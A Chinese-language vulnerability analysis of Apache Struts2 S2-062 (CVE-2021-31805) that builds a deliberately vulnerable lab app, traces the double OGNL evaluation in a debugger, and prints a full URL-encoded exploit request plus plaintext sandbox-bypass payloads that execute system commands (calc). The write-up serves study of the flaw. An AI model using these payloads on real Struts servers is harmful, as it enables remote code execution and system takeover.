前言
缝合怪文章，刚接触Java，尝试分析和学习漏洞的原理
漏洞背景
2022年4月12日，Apache发布安全公告，修复了一个Apache Struts2 中的远程代码执行漏洞S2-062(CVE-2021-31805)，攻击者可以利用此漏洞来控制受影响的系统。该漏洞是由于 2020 年 S2-061(CVE-2020-17530) 的不完整修复造成的，当开发人员使用了 %{…} 语法进行强制 OGNL 解析时，仍有一些特殊的 TAG 属性可被二次解析，攻击者可构造恶意的 OGNL表达式 触发漏洞，从而实现远程代码执行。
影响范围
- 2.0.0 <= Apache Struts2 <= 2.5.29
漏洞复现环境
- Java 1.8
- Struts 2.5.26
- Tomcat 9.0.60
环境搭建
- maven创建普通web项目

- 添加 Struts2 依赖
1
2
3
4
5
6
7
8
9
10
11
12
| <dependencies>
<dependency>
<groupId>org.apache.struts</groupId>
<artifactId>struts2-core</artifactId>
<version>2.5.26</version>
</dependency>
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.2</version>
</dependency>
</dependencies>
|
- 修改 WEB-INF/web.xml 文件，添加过滤器
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| <?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0">
<filter>
<filter-name>struts2</filter-name>
<filter-class>org.apache.struts2.dispatcher.filter.StrutsPrepareAndExecuteFilter</filter-class>
</filter>
<filter-mapping>
<filter-name>struts2</filter-name>
<url-pattern>/*</url-pattern>
</filter-mapping>
</web-app>
|
- 在 src/mian 目录下创建 java 和 resource 文件夹
- 创建 struts 主配置文件
在 resources 目录下添加 struts.xml 文件
1
2
3
4
5
6
7
8
9
10
11
12
| <?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
"-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
"http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
<package name="default" extends="struts-default" namespace="/">
<action name="index" class="com.test.demo.IndexAction" method="execute">
<result name="success">index.jsp</result>
</action>
</package>
</struts>
|
- 新建一个 action 类
在 java 目录下添加 package 后新建 action 类
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| package com.test.demo;
public class IndexAction {
private String payload;
public String execute() throws Exception{
return "success";
}
public String getPayload() {
return payload;
}
public void setPayload(String payload) {
this.payload = payload;
}
}
|
- 修改 index.jsp 文件
如果在 jsp 中想使用 struts2 的标签，需要在头部声明
1
| <%@ taglib prefix="s" uri="/struts-tags" %>
|
在 struts2-core 包中的 struts-tags.tld 中对标签进行了定义，解析不同标签时会根据不同的 tag 类型找到不同的 TagSupport 的实行类进处理
1
2
3
4
5
6
7
8
9
10
11
12
13
| <%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.util.*" pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
<title>s2-062</title>
</head>
<body>
<div>
<s:label id="test" name="%{payload}" />
</div>
</body>
</html>
|
漏洞复现
1
2
3
4
5
6
7
8
9
10
11
12
13
| POST /index.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2861
payload=%28%23%72%65%71%75%65%73%74%2e%6d%61%70%3d%23%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%40%7b%7d%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%6d%61%70%2e%73%65%74%42%65%61%6e%28%23%72%65%71%75%65%73%74%2e%67%65%74%28%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%29%29%20%3d%3d%20%74%72%75%65%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%6d%61%70%32%3d%23%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%40%7b%7d%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%6d%61%70%32%2e%73%65%74%42%65%61%6e%28%23%72%65%71%75%65%73%74%2e%67%65%74%28%27%6d%61%70%27%29%2e%67%65%74%28%27%63%6f%6e%74%65%78%74%27%29%29%20%3d%3d%20%74%72%75%65%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%6d%61%70%33%3d%23%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%40%7b%7d%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%6d%61%70%33%2e%73%65%74%42%65%61%6e%28%23%72%65%71%75%65%73%74%2e%67%65%74%28%27%6d%61%70%32%27%29%2e%67%65%74%28%27%6d%65%6d%62%65%72%41%63%63%65%73%73%27%29%29%20%3d%3d%20%74%72%75%65%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%67%65%74%28%27%6d%61%70%33%27%29%2e%70%75%74%28%27%65%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%27%2c%23%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%40%7b%7d%2e%6b%65%79%53%65%74%28%29%29%20%3d%3d%20%74%72%75%65%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%72%65%71%75%65%73%74%2e%67%65%74%28%27%6d%61%70%33%27%29%2e%70%75%74%28%27%65%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%27%2c%23%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%40%7b%7d%2e%6b%65%79%53%65%74%28%29%29%20%3d%3d%20%74%72%75%65%29%2e%74%6f%53%74%72%69%6e%67%28%29%2e%73%75%62%73%74%72%69%6e%67%28%30%2c%30%29%20%20%2b%28%23%61%70%70%6c%69%63%61%74%69%6f%6e%2e%67%65%74%28%27%6f%72%67%2e%61%70%61%63%68%65%2e%74%6f%6d%63%61%74%2e%49%6e%73%74%61%6e%63%65%4d%61%6e%61%67%65%72%27%29%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%27%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%27%29%2e%65%78%65%63%28%7b%27%63%61%6c%63%27%7d%29%29
|

漏洞分析
前置知识
在分析漏洞前，了解 Struts2 的请求处理流程：

- 客户端发起请求，该请求被提交到标准过滤器
Filter组件链中
- 核心控制器组件
FilterDispatcher根据ActionMapper中的设置选择调用某个Action组件，通过核心控制器把请求委托给ActionProxy组件
ActionProxy组件通过Configuration Manager组件获得 Struts2框架的配置文件Struts.xml，找到需要调用的目标Action组件类。ActionProxy创建一个ActionInvocation实例，该实例使用命令模式来调用，回调Action组件中的execute方法Action组件执行完毕，ActionInvocation组件根据配置文件Struts.xml中定义的各个配置项目获得对象的返回结果，为这个Action组件的结果码，然后根据结果调用目标 JSP 页面实现显示输出- 最后各个拦截器组件会被再次执行（但是顺序与开始时相反，并调用after()方法），然后请求最终被返回给系统中部署的其他过滤器
OGNL表达式
OGNL是 Object-Graph Navigation Language 的缩写，全称为对象图导航语言，是一种功能强大的表达式语言，它通过简单一致的语法可以任意存取对象的属性或者调用对象的方法，能够遍历整个对象的结构图，实现对象属性类型的转换等功能，Struts2中的ONGL有一个上下文(Context)概念，其实现者为 ActionContext ，结构示意图如下所示：

OGNL特点
- 支持类静态方法调用和值访问，格式为@[类全名(包括包路)]@[方法名|值名]
1
2
| @java.lang.String@format(‘foo %s’, ‘bar’)
@tutorial.MyConstant@APP_NAME;
|
OGNL符号
OGNL表达式要结合Struts的标签库来使用，主要有 # 、% 和 $ 三个符号的使用：
-
# 用法
# 可用于访问非根元素(在Struts中值栈为根对象)，这里 # 相当于 ActionContext.getContext()，下表是几个 ActionContext 中常用的属性：

# 可用于过滤和投影 projecting 集合，例如：
# 可用于构造Map
1
| #{'foo1':'bar1','foo2':'bar2'}
|
-
% 用法
% 符号的用途是在标志的属性为字符串类型时，计算OGNL表达式的值，类似js中的 eval，这也是找寻OGNL表达式执行的关键点
-
$ 用法
在Struts 2配置文件中，引用OGNL表达式
漏洞分析
从漏洞描述中可知，s2-062 仍是标签属性二次表达式注入漏洞，给 index.jsp 中的标签打断点

标签解析从 org.apache.struts2.views.jsp.ComponentTagSupport.class#doStartTag开始

到 org.apache.struts2.views.jsp.ComponentTagSupport.class#doEndTag

继续跟进到 org.apache.struts2.components.UIBean#end

进入 evaluateParams 函数，在第217行对属性 name 调用 findString 进行一次OGNL表达式赋值

把 payload 赋值给 name 属性。继续往下，首先在第335行处判断标签是否存在 value属性，在342行处判断 name 不为空，进入 completeExpressionIfAltSyntax 函数

第337行和339行处判断为永真，对应函数在439~445行

跟进 completeExpressionIfAltSyntax 函数，会在 org.apache.struts2.components.Component#completeExpressionIfAltSyntax 中先判断 altSyntax，该函数默认为 True

然后在 org.apache.struts2.util.ComponentUtils#containsExpression 中判断是否包含 %{} ，不存在则完成判断后添加 %{}

第344行处对 name 进行判断，当传入的参数中存在 %{} 时，在 org.apache.struts2.components.Component#recursion 中判断为 True

无法继续进入 findValue 。当 recursion() 函数返回 False 时，进入 findValue 完成第二次OGNL表达式赋值，从而触发表达式注入漏洞。

在 org.apache.struts2.components.Component#addParameter 中可以看到 nameValue 经过 findValue 被成功解析

绕过沙箱
上面已经实现OGNL表达式注入，但现在还需要绕过沙箱才能实现RCE。在之前的漏洞 S2-061 中，使用 org.apache.tomcat.
1
2
3
4
5
6
7
8
9
10
11
| %{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
|
但在 Struts 2.5.26 中将其加入了黑名单，所以无法获取 BeanMap 对象

可以使用新的语法进行绕过
1
| https://<domain>/?skillName=#@java.util.LinkedHashMap@{"foo":"value"}
|

创建一个 LinkedHashMap 对象构造新的poc
1
| #@org.apache.commons.collections.BeanMap@{}
|
并且该语法不在黑名单中，完整payload：
1
2
3
4
5
6
7
8
9
| (#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0)
+(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0)
+(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0)
+(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0)
+(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0)
+(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0)
+(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0)
+(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0)
+(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc'}))
|
踩坑
版本问题
这次漏洞分析选择的是 Struts 2.5.26 版本

但在最开始复现的时候，图方便使用的是 S2-061 的环境，代码更新增加了判断输入的内容是否存在 %{} ，导致后续再复现的时候一直不成功
Payload问题
- 上述的payload需要根据
Struts 版本判断是否要加 %{}
- 在使用payload时，选择URL编码需要注意空格，回车和加号
最后
该漏洞需要在代码中使用 %{...} 这样的语法，现在使用这样写法的很少了。并且需要一个接收的参数，在编写的payload时可以考虑增加参数爆破
引用
Struts2框架处理流程
Apache Struts系列S2-062（CVE-2021-31805）分析学习笔记
S2-062 Struts2 OGNL表达式注入漏洞与沙箱绕过分析
S2-059 RCE浅析